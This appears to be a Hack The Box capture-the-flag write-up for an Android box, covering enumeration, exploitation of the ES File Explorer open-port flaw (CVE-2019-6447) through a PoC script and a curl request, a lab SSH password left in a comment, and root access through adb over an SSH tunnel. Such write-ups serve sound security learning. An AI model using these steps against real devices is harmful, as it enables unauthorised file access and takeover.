




<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.247 explore.htb

**nmap scan:**
```bash
PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
34153/tcp open  unknown
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-server-header: ES Name Response Server
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

# Foothold

## ES File Explorer Open Port Vulnerability

**[CVE-2019–6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447):** The ES File Explorer File Manager application through 4.1.9.7.4 for Android allows remote attackers to read arbitrary files or execute applications via TCP port 59777 requests on the local Wi-Fi network. This TCP port remains open after the ES application has been launched once, and responds to unauthenticated application/json data over HTTP.

* Exploit PoC: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
* [Analysis of ES File Explorer Security Vulnerability(CVE-2019–6447)](https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566)

```bash
python es_poc.py --cmd getDeviceInfo --ip 10.10.10.247
```



while exploring ES File Explorer server commands found an interesting file with `listPics` 



this PoC script only sending POST request with json data to the server with commands that server can execute, we can simply do this with curl. *demonstrated in the [PoC](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)*

```bash
❯ curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://10.10.10.247:59777
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
]
```


<!--kristi:Kr1sT!5h@Rp3xPl0r3!-->

and get the ssh creds.

# Privesc

## `adb` Root

Device is running adb server
```bash
:/sdcard $ ss -lntp
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN      0      4            *:5555                     *:*
```

It is listening on all networks but somehow it is not working remotely.

Using ssh tunnel to forward port and run adb to get root.



root flag found in `/data`
```bash
x86_64:/ # find / -type f -name root.txt 2>/dev/null
/data/root.txt
```